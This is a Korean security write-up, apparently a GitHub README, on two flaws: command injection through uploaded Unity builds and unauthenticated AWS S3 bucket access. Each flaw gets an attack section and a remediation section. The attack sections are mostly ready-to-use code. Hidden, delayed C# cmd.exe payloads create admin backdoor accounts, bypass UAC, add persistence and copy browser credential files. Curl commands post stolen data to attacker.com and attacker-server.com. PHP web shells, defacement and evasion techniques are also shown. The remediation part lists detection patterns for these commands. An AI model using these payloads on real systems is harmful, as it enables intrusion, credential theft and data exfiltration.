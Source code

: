 <details>
<summary><strong>Unity Command Injection</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### 유니티 파일 업로드 시스템 명령어 실행 취약점이란?
웹 사이트에서 유니티 빌드 파일을 업로드하는 기능에서, 악성 스크립트가 포함된 파일에 대한 적절한 검증 없이 업로드를 허용할 때 발생하는 취약점입니다. 사용자가 해당 파일을 실행하면 악성 스크립트를 통해 시스템 명령어가 실행될 수 있습니다.

### 취약점 발생 위치
- **서버 측**: 유니티 빌드 파일 업로드 처리 과정
- **클라이언트 측**: 업로드된 유니티 파일 실행 시점
- **실행 환경**: 사용자 브라우저 또는 유니티 런타임 환경

### 공격 시나리오

#### 일반적인 공격 과정:
1. **악성 스크립트 작성**: C# 스크립트에 시스템 명령어 실행 코드 삽입
2. **유니티 프로젝트 빌드**: 악성 스크립트가 포함된 유니티 파일 생성
3. **파일 업로드**: 웹사이트에 악성 유니티 파일 업로드
4. **사용자 유인**: 정상적인 게임이나 애플리케이션으로 위장
5. **실행 및 공격**: 사용자가 버튼 클릭 시 시스템 명령어 실행

### 취약한 코드 패턴

#### 기본적인 악성 스크립트 구조:
```csharp
using UnityEngine;
using System.Diagnostics;

public class OpenURL : MonoBehaviour 
{
    public void testURL() 
    {
        // 기본 시스템 명령어 실행
        string cmdCommand = "/c start explorer \"C:\\\" & taskmgr & pause";
        Process.Start("cmd.exe", cmdCommand);
    }
}
```

#### 고급 악성 스크립트 패턴:
```csharp
using UnityEngine;
using System.Diagnostics;
using System.Collections;

public class AdvancedMalware : MonoBehaviour
{
    void Start()
    {
        // 지연 실행으로 탐지 회피
        StartCoroutine(DelayedExecution());
    }
    
    IEnumerator DelayedExecution()
    {
        yield return new WaitForSeconds(10f);
        
        // 시스템 정보 수집
        ExecuteCommand("systeminfo > %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 네트워크 정보 수집
        ExecuteCommand("ipconfig /all >> %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 사용자 계정 생성
        ExecuteCommand("net user hacker password123 /add");
        
        // 관리자 그룹 추가
        ExecuteCommand("net localgroup administrators hacker /add");
    }
    
    void ExecuteCommand(string command)
    {
        try
        {
            ProcessStartInfo startInfo = new ProcessStartInfo();
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = "/c " + command;
            startInfo.WindowStyle = ProcessWindowStyle.Hidden;
            startInfo.CreateNoWindow = true;
            
            Process.Start(startInfo);
        }
        catch (System.Exception e)
        {
            Debug.Log("Command execution failed: " + e.Message);
        }
    }
}
```

### 공격 유형별 분류

#### 1.1. 직접 시스템 명령어 실행
```csharp
// 파일 시스템 조작
Process.Start("cmd.exe", "/c copy %USERPROFILE%\\Documents\\*.* %temp%\\stolen\\");

// 네트워크 스캔
Process.Start("cmd.exe", "/c for /L %i in (1,1,254) do ping -n 1 192.168.1.%i");

// 시스템 정보 수집
Process.Start("cmd.exe", "/c whoami /all > %temp%\\userinfo.txt");
```

#### 1.2. 권한 상승 시도
```csharp
// 관리자 계정 활성화
Process.Start("cmd.exe", "/c net user administrator /active:yes");

// 새로운 관리자 계정 생성
Process.Start("cmd.exe", "/c net user backdoor P@ssw0rd123! /add");
Process.Start("cmd.exe", "/c net localgroup administrators backdoor /add");

// UAC 우회 시도
Process.Start("cmd.exe", "/c reg add HKCU\\Software\\Classes\\ms-settings\\Shell\\Open\\command /v DelegateExecute /t REG_SZ");
```

#### 1.3. 지속성 확보
```csharp
// 시작 프로그램 등록
Process.Start("cmd.exe", "/c reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /v SystemUpdate /d C:\\temp\\malware.exe");

// 스케줄 작업 생성
Process.Start("cmd.exe", "/c schtasks /create /tn \"WindowsUpdate\" /tr \"C:\\temp\\backdoor.exe\" /sc daily /st 09:00");

// 서비스 등록
Process.Start("cmd.exe", "/c sc create BackdoorService binPath=\"C:\\temp\\service.exe\" start=auto");
```

#### 1.4. 데이터 탈취
```csharp
// 브라우저 데이터 수집
Process.Start("cmd.exe", "/c copy \"%LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Login Data\" %temp%\\chrome_data.db");
Process.Start("cmd.exe", "/c copy \"%APPDATA%\\Mozilla\\Firefox\\Profiles\\*.default\\logins.json\" %temp%\\");

// 문서 파일 수집
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.pdf /c \"cmd /c copy @path %temp%\\docs\\\"");
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.docx /c \"cmd /c copy @path %temp%\\docs\\\"");

// 데이터 외부 전송
Process.Start("cmd.exe", "/c curl -X POST -F \"file=@%temp%\\stolen_data.zip\" http://attacker.com/upload");
```

### 기술적 동작 원리

#### Unity WebGL vs Standalone 차이점:
```csharp
#if UNITY_WEBGL
    // WebGL에서는 일반적으로 System.Diagnostics.Process가 제한됨
    // 하지만 특정 조건에서 브라우저 API 활용 가능
    Application.ExternalEval("window.open('file:///C:/', '_blank');");
    
#elif UNITY_STANDALONE
    // Standalone 빌드에서는 직접적인 시스템 접근 가능
    Process.Start("cmd.exe", "/c dir C:\\ > %temp%\\directories.txt");
    
    // PowerShell 실행도 가능
    Process.Start("powershell.exe", "-Command Get-Process | Out-File %temp%\\processes.txt");
    
#endif
```

#### UI 이벤트와 연결:
```csharp
using UnityEngine;
using UnityEngine.UI;
using System.Diagnostics;

public class MaliciousButton : MonoBehaviour
{
    void Start()
    {
        // 버튼 컴포넌트 가져오기
        Button btn = GetComponent<Button>();
        
        // 클릭 이벤트에 악성 함수 연결
        btn.onClick.AddListener(() => {
            ExecuteMaliciousCode();
        });
        
        // 또는 다른 UI 이벤트 활용
        btn.onClick.AddListener(delegate { StartCoroutine(DelayedAttack()); });
    }
    
    void ExecuteMaliciousCode()
    {
        // 사용자가 버튼을 클릭하는 순간 실행
        Process.Start("cmd.exe", "/c taskmgr & explorer C:\\");
    }
    
    System.Collections.IEnumerator DelayedAttack()
    {
        // 5초 후 실행하여 의심을 피함
        yield return new WaitForSeconds(5f);
        
        Process.Start("cmd.exe", "/c net user attacker P@ssw0rd! /add /comment:\"System Account\"");
    }
}
```

---

## 2. 조치 가이드

### 2.1. 파일 업로드 검증

#### 2.1.1. 기본 파일 검증
```php
// 파일 확장자 및 크기 제한
$allowed_ext = ['unity3d', 'unityweb'];
$max_size = 10 * 1024 * 1024; // 10MB

if (!in_array($ext, $allowed_ext) || $file_size > $max_size) {
    reject_upload();
}
```

#### 2.1.2. 압축 파일 내용 스캔
```python
import zipfile
import re

def scan_unity_file(file_path):
    dangerous_patterns = [
        r'Process\.Start',
        r'System\.Diagnostics',
        r'cmd\.exe',
        r'net\s+user',
        r'reg\s+add'
    ]
    
    with zipfile.ZipFile(file_path, 'r') as zip_file:
        for file_info in zip_file.filelist:
            if file_info.filename.endswith('.cs'):
                content = zip_file.read(file_info).decode('utf-8', errors='ignore')
                
                for pattern in dangerous_patterns:
                    if re.search(pattern, content, re.IGNORECASE):
                        return False  # 위험한 패턴 발견
    
    return True  # 안전
```

### 2.2. 실행 환경 보안

#### 2.2.1. 샌드박스 실행 환경 구축
```bash
# Docker를 이용한 격리된 실행 환경
FROM ubuntu:20.04
RUN useradd -m -s /bin/bash unity_user
USER unity_user
WORKDIR /sandbox

# 네트워크 접근 차단
RUN iptables -A OUTPUT -j DROP

# 파일 시스템 접근 제한
RUN mount -o ro /usr/bin
```

#### 2.2.2. 브라우저 보안 정책
```html
<!-- Content Security Policy 적용 -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' 'unsafe-eval';">

<!-- 권한 정책 제한 -->
<meta http-equiv="Permissions-Policy" 
      content="camera=(), microphone=(), geolocation=()">
```

### 2.3. 관리자 승인 시스템

#### 2.3.1. 수동 검토 프로세스
```sql
-- 승인 대기 테이블 생성
CREATE TABLE file_approvals (
    id INT AUTO_INCREMENT PRIMARY KEY,
    filename VARCHAR(255),
    upload_time DATETIME,
    status ENUM('pending', 'approved', 'rejected'),
    reviewer_id INT
);
```

#### 2.3.2. 48시간 검토 기간 설정
```php
// 업로드 후 48시간 대기 후 공개
$public_time = date('Y-m-d H:i:s', strtotime('+48 hours'));
$stmt = $pdo->prepare("UPDATE files SET public_time = ? WHERE id = ?");
$stmt->execute([$public_time, $file_id]);
```

### 2.4. 모니터링 시스템

#### 2.4.1. 실시간 로그 모니터링
```bash
# 시스템 명령어 실행 감지
tail -f /var/log/syslog | grep -E "(cmd.exe|powershell|net user)" | \
while read line; do
    echo "ALERT: Suspicious command detected - $line"
    # 관리자에게 알림 전송
done
```

#### 2.4.2. 파일 실행 추적
```javascript
// Unity WebGL 실행 시 모니터링
window.addEventListener('beforeunload', function(e) {
    // 비정상 종료 시 서버에 보고
    navigator.sendBeacon('/security-alert', {
        type: 'abnormal_exit',
        timestamp: new Date().toISOString()
    });
});
```

### 2.5. 응급 대응 절차

#### 2.5.1. 악성 파일 발견 시 조치
```bash
# 1. 즉시 파일 격리
mv /var/www/uploads/malicious_file.unity3d /quarantine/

# 2. 접근 로그 확인
grep "malicious_file" /var/log/apache2/access.log

# 3. 영향받은 사용자 파악
mysql -e "SELECT user_id, access_time FROM access_logs WHERE file_name LIKE '%malicious_file%'"
```

#### 2.5.2. 사용자 알림 및 조치
```php
// 긴급 보안 알림 발송
function send_security_alert($affected_users) {
    foreach ($affected_users as $user) {
        mail($user['email'], 
             '보안 알림', 
             '최근 실행하신 파일에서 보안 위험이 발견되어 제거했습니다. PC 검사를 권장합니다.');
    }
```
</details>




<details><summary><strong>AWS S3 무인증 접근</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### AWS S3 무인증 접근 취약점이란?
AWS S3 버킷이 잘못 구성되어 `--no-sign-request` 옵션을 통해 인증 없이 접근 가능할 때 발생하는 취약점입니다. 공격자가 AWS CLI를 사용하여 인증 절차 없이 S3 버킷에 접근하여 파일 업로드, 다운로드, 나열 등의 작업을 수행할 수 있습니다.

### 취약점 발생 위치
**AWS CLI를 통한 AWS S3 서버 접근**
- S3 버킷의 퍼블릭 정책 설정 오류
- 버킷 ACL(Access Control List) 잘못된 구성
- IAM 정책의 과도한 권한 부여

### 상세 공격 과정 (페이로드)

#### 1단계: AWS CLI 설치 및 버킷 접근
```bash
# AWS CLI 설치
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install

# 무인증 버킷 접근 테스트
aws s3 ls s3://test_s3_URL --no-sign-request --no-verify-ssl
```

**명령어 옵션 상세 분석:**
- `--no-sign-request`: AWS 액세스 키 없이 요청 서명 생략
- `--no-verify-ssl`: SSL 인증서 검증 우회 (자체 서명 인증서 환경)
- `s3://test_s3_URL`: 타겟 S3 버킷 URL

#### 2단계: 권한 테스트 및 정보 수집
```bash
# 버킷 내 전체 파일 구조 파악
aws s3 ls s3://test_s3_URL --recursive --no-sign-request --no-verify-ssl

# 버킷 정책 정보 수집
aws s3api get-bucket-policy --bucket test_s3_URL --no-sign-request 2>/dev/null

# 버킷 위치 및 설정 정보
aws s3api get-bucket-location --bucket test_s3_URL --no-sign-request
aws s3api get-bucket-acl --bucket test_s3_URL --no-sign-request

# 버킷 크기 및 객체 수 파악
aws s3 ls s3://test_s3_URL --recursive --no-sign-request --summarize
```

#### 3단계: 파일 다운로드 (확장자 검증 없음)
```bash
# 민감한 파일 패턴 검색
aws s3 ls s3://test_s3_URL --recursive --no-sign-request | grep -E "\.(env|config|key|pem|p12|jks)$"

# 설정 파일 다운로드
aws s3 cp s3://test_s3_URL/.env ./stolen_configs/ --no-sign-request --no-verify-ssl
aws s3 cp s3://test_s3_URL/config/database.yml ./stolen_configs/ --no-sign-request --no-verify-ssl

# 사용자 업로드 파일 일괄 다운로드
aws s3 sync s3://test_s3_URL/uploads/ ./stolen_user_files/ --no-sign-request --no-verify-ssl

# 백업 파일 탈취
aws s3 cp s3://test_s3_URL/backups/ ./stolen_backups/ --recursive --no-sign-request --no-verify-ssl
```

#### 4단계: 악성 파일 업로드 (확장자 검증 없음)
```bash
# 웹쉘 업로드
echo '<?php if(isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>' > backdoor.php
aws s3 cp backdoor.php s3://test_s3_URL/public/images/logo.php --no-sign-request --no-verify-ssl

# 피싱 페이지 업로드
aws s3 cp phishing_login.html s3://test_s3_URL/login.html --no-sign-request --no-verify-ssl

# 멀웨어 배포
aws s3 cp trojan.exe s3://test_s3_URL/downloads/security_update.exe --no-sign-request --no-verify-ssl

# 크립토마이너 업로드
aws s3 cp cryptominer.js s3://test_s3_URL/assets/jquery.min.js --no-sign-request --no-verify-ssl
```

### 발생 원인 분석

#### 주요 원인: AWS S3 서버 설정 오류로 인한 무인증 접근
1. **퍼블릭 읽기 권한 설정**: 버킷이 `public-read` 또는 `public-read-write`로 설정
2. **잘못된 버킷 정책**: `Principal: "*"`로 모든 사용자에게 권한 부여
3. **ACL 설정 오류**: `AllUsers` 그룹에 대한 권한 부여
4. **IAM 정책 오설정**: 과도한 권한이 퍼블릭으로 노출

#### 취약한 S3 버킷 정책 예시:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "PublicReadGetObject",
            "Effect": "Allow",
            "Principal": "*",  // 모든 사용자 허용 (위험)
            "Action": [
                "s3:GetObject",
                "s3:GetObjectVersion",
                "s3:ListBucket",
                "s3:PutObject"  // 업로드 권한까지 부여 (매우 위험)
            ],
            "Resource": [
                "arn:aws:s3:::test_s3_URL",
                "arn:aws:s3:::test_s3_URL/*"
            ]
        }
    ]
}
```

#### 위험한 ACL 설정:
```bash
# 모든 사용자에게 읽기/쓰기 권한 부여 (위험)
aws s3api put-bucket-acl --bucket test_s3_URL --acl public-read-write

# 인증된 사용자에게 모든 권한 부여 (위험)
aws s3api put-bucket-acl --bucket test_s3_URL --acl authenticated-read
```

### 실제 공격 시나리오

#### 시나리오 1: 데이터 탈취
```bash
# 1. 버킷 발견 및 접근 테스트
aws s3 ls s3://test_s3_URL --no-sign-request --no-verify-ssl

# 2. 민감한 파일 검색
aws s3 ls s3://test_s3_URL --recursive --no-sign-request | grep -E "\.(env|yml|json|sql|log)$"

# 3. 대용량 데이터 일괄 다운로드
aws s3 sync s3://test_s3_URL/user_data/ ./stolen_data/ --no-sign-request --no-verify-ssl

# 4. 압축하여 외부 서버로 전송
tar -czf stolen_data.tar.gz ./stolen_data/
curl -X POST -F "file=@stolen_data.tar.gz" http://attacker-server.com/collect
```

#### 시나리오 2: 서비스 방해 및 변조
```bash
# 1. 중요 파일 삭제
aws s3 rm s3://test_s3_URL/config/app.yml --no-sign-request

# 2. 대용량 파일 업로드로 스토리지 소모
dd if=/dev/zero of=garbage.bin bs=1M count=1000  # 1GB 파일 생성
aws s3 cp garbage.bin s3://test_s3_URL/ --no-sign-request

# 3. 웹사이트 메인 페이지 변조
echo "<h1>Hacked by Attacker</h1>" > defaced.html
aws s3 cp defaced.html s3://test_s3_URL/index.html --no-sign-request
```

#### 시나리오 3: 악성 파일 배포
```bash
# 1. 멀웨어 업로드 및 정상 파일로 위장
aws s3 cp malware.exe s3://test_s3_URL/downloads/software_update.exe --no-sign-request

# 2. 피싱 페이지 배포
aws s3 cp fake_login.html s3://test_s3_URL/secure/login.html --no-sign-request

# 3. 웹쉘 업로드
echo '<?php system($_GET["c"]); ?>' > shell.php
aws s3 cp shell.php s3://test_s3_URL/assets/config.php --no-sign-request
```

### 고급 공격 기법

#### 타이밍 기반 공격:
```bash
# 새벽 시간대 대용량 업로드 (탐지 회피)
crontab -e
# 0 2 * * * aws s3 sync /tmp/malicious_files/ s3://test_s3_URL/hidden/ --no-sign-request
```

#### 분산 공격:
```bash
# 여러 IP에서 동시 접근으로 탐지 회피
for ip in 1.2.3.4 5.6.7.8 9.10.11.12; do
    ssh $ip "aws s3 cp s3://test_s3_URL/sensitive_data.sql ./data_$ip.sql --no-sign-request"
done
```

#### 스테가노그래피 활용:
```bash
# 이미지 파일에 데이터 숨기기
steghide embed -cf innocent_image.jpg -ef stolen_data.txt -p password123
aws s3 cp innocent_image.jpg s3://test_s3_URL/images/gallery001.jpg --no-sign-request
```

---

## 2. 조치 가이드

### 2.1. 퍼블릭 액세스 즉시 차단
```bash
# S3 퍼블릭 액세스 완전 차단
aws s3api put-public-access-block \
    --bucket test_s3_URL \
    --public-access-block-configuration \
    "BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"
```

### 2.2. 버킷 정책 수정
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Deny",
            "Principal": "*",
            "Action": "s3:*",
            "Resource": [
                "arn:aws:s3:::test_s3_URL",
                "arn:aws:s3:::test_s3_URL/*"
            ]
        }
    ]
}
```

### 2.3. CloudTrail 모니터링 활성화
```bash
# S3 데이터 이벤트 로깅 활성화
aws cloudtrail put-event-selectors \
    --trail-name s3-monitoring \
    --event-selectors ReadWriteType=All,IncludeManagementEvents=true,DataResources=[{Type=AWS::S3::Object,Values=["arn:aws:s3:::test_s3_URL/*"]}]
```

### 2.4. 응급 격리 조치
```bash
# 1. 버킷 정책 즉시 제거
aws s3api delete-bucket-policy --bucket test_s3_URL

# 2. 의심스러운 파일 확인
aws s3 ls s3://test_s3_URL --recursive | grep -E "\.(php|jsp|asp|exe)$"

# 3. 최근 업로드 파일 격리
aws s3 mv s3://test_s3_URL/suspicious_file.php s3://quarantine-bucket/
```

### 2.5. 보안 강화 설정
```bash
# MFA 삭제 보호 활성화
aws s3api put-bucket-versioning \
    --bucket test_s3_URL \
    --versioning-configuration Status=Enabled,MFADelete=Enabled

# 암호화 강제 적용
aws s3api put-bucket-encryption \
    --bucket test_s3_URL \
    --server-side-encryption-configuration \
    '{"Rules":[{"ApplyServerSideEncryptionByDefault":{"SSEAlgorithm":"AES256"}}]}'
```
</details>
